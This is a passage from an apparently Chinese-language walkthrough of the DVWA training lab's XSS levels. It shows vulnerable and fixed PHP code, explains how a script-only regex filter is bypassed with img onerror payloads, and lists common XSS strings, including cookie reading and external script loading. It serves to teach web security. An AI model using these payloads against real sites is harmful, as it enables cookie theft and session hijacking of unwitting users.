 ```php
<?php
header ("X-XSS-Protection: 0");
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
```
使用正则进行匹配，过滤了大小写混合写入已经双写，但是可以使用img、body等标签的事件以及iframe标签的src注入恶意的js代码进行漏洞利用
`<img src=1 onerror=alert('test')>`
![xss](https://upload-images.jianshu.io/upload_images/9464729-6c8fc0dd38766d98.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
##### 等级Impossible
源代码:
```php
<?php
// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );
    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
// Generate Anti-CSRF token
generateSessionToken();
?> 

```
htmlspecialchars() 函数把一些预定义的字符转换为 HTML 实体。以防止浏览器将其作为HTML元素。这样会将用户输入的内容都不作为标签以提高安全性。
预定义的字符是：

    & （和号）成为 &amp;
    " （双引号）成为 &quot;
    ' （单引号）成为 '
    < （小于）成为 &lt;
    > （大于）成为 &gt;
一些常用的xss语句
```
   <script>alert(/test/)</script> 最普通的xss代码
   <script>alert(document.cookie);</script> 获取cookie
   <img src="javascript:alert(/test/)"> img链接地址xss
   <script src="test.js"> <script> 外部调用攻击代码ls.js
   <script alert('test)</SCRIPT> 注释方法防止过滤
   <img src="" onerror=alert("xss")> 加载图像失败执行
   <iframe onload=alert('test')> 框架
   <script>location='test.com';</script> 跳转某页面
```
#### 存储型XSS
##### 等级Low
源代码:
```php
<?php
if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

```